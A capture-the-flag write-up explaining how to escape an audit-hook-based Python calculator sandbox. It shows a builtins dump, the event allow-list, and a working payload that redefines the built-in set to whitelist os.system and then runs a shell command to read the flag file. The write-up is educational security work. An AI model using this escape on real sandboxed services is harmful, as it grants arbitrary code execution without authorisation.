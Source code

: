 # HAXLAB - Endgame Pwn

The challenge provided a python file implementing a secure calculator. It requires at least python 3.8.5 to run, as it makes use of audit hooks, which has been added along 3.8 and had some fixes in more recent versions.

The script is the same as in the previous version of the challenge, but it requires Remote Code Execution to obtain the content of ```flag2.txt```. The general approach followed in the previous challenge is not adequate, and additional techniques must be used.

An important approach is to list what is available in the builtins:
``` 
>>> exec("for k,v in enumerate(globals()['__builtins__']): print(k,v)")
0 __name__
1 __doc__
2 __package__
3 __loader__
4 __spec__
5 __build_class__
6 __import__
7 abs
8 all
9 any
10 ascii
11 bin
12 breakpoint
13 callable
14 chr
15 compile
16 delattr
17 dir
18 divmod
19 eval
20 exec
21 format
22 getattr
23 globals
24 hasattr
25 hash
26 hex
27 id
28 input
29 isinstance
30 issubclass
31 iter
32 len
33 locals
34 max
35 min
36 next
37 oct
38 ord
39 pow
40 print
41 repr
42 round
43 setattr
44 sorted
45 sum
46 vars
47 None
48 Ellipsis
49 NotImplemented
50 False
51 True
52 bool
53 memoryview
54 bytearray
55 bytes
56 classmethod
57 complex
58 dict
59 enumerate
60 filter
61 float
62 frozenset
63 property
64 int
65 list
66 map
67 object
68 range
69 reversed
70 set
71 slice
72 staticmethod
73 str
74 super
75 tuple
76 type
77 zip
78 __debug__
79 BaseException
80 Exception
81 TypeError
82 StopAsyncIteration
83 StopIteration
84 GeneratorExit
85 SystemExit
86 KeyboardInterrupt
87 ImportError
88 ModuleNotFoundError
89 OSError
90 EnvironmentError
91 IOError
92 EOFError
93 RuntimeError
94 RecursionError
95 NotImplementedError
96 NameError
97 UnboundLocalError
98 AttributeError
99 SyntaxError
100 IndentationError
101 TabError
102 LookupError
103 IndexError
104 KeyError
105 ValueError
106 UnicodeError
107 UnicodeEncodeError
108 UnicodeDecodeError
109 UnicodeTranslateError
110 AssertionError
111 ArithmeticError
112 FloatingPointError
113 OverflowError
114 ZeroDivisionError
115 SystemError
116 ReferenceError
117 MemoryError
118 BufferError
119 Warning
120 UserWarning
121 DeprecationWarning
122 PendingDeprecationWarning
123 SyntaxWarning
124 RuntimeWarning
125 FutureWarning
126 ImportWarning
127 UnicodeWarning
128 BytesWarning
129 ResourceWarning
130 ConnectionError
131 BlockingIOError
132 BrokenPipeError
133 ChildProcessError
134 ConnectionAbortedError
135 ConnectionRefusedError
136 ConnectionResetError
137 FileExistsError
138 FileNotFoundError
139 IsADirectoryError
140 NotADirectoryError
141 InterruptedError
142 PermissionError
143 ProcessLookupError
144 TimeoutError
145 open
146 quit
147 exit
148 copyright
149 credits
150 license
151 help
152 _
```

We can use some of this entries, but if they trigger an audit event, they will mostly be blocked.
The reason is that as two lines only allow events presented on a fixed set:
```
...
    ALLOWED_EVENTS = set({'builtins.input', 'builtins.input/result', 'exec', 'compile'})
    if event not in ALLOWED_EVENTS:
...
```

While the code may seem to be fail proof, you can see that the use of ```set``` is not required to implement such filter. It is actually the attack vector.

Because we have access to ```globals()['__builtins__']```  we can redefine many core funtions, and we can redefine ```set```, providing an alternative implementation.

This implementation will ignore the argument provided an return a fixed set, with a content we can control. The content includes previous events and then the events we require to call a system command or to open a file. Basically we get full control over the program and can execute any code we want.

Because the objective is to demonstrate arbitrary RCE, our object is to include ```os.system``` and define ```set``` ```as lambda x: ['builtins.input', 'builtins.input/result','exec', 'os.system']```. 
The result is our payload, that will obtain the flag.

```
>>> exec("globals()['__builtins__']['set']=lambda x: ['builtins.input', 'builtins.input/result','exec', 'compile', 'os.system']\nimport os\nos.system('cat flag2.txt')")

```

This was solved minutes after the CTF, so the flag was not available to us.
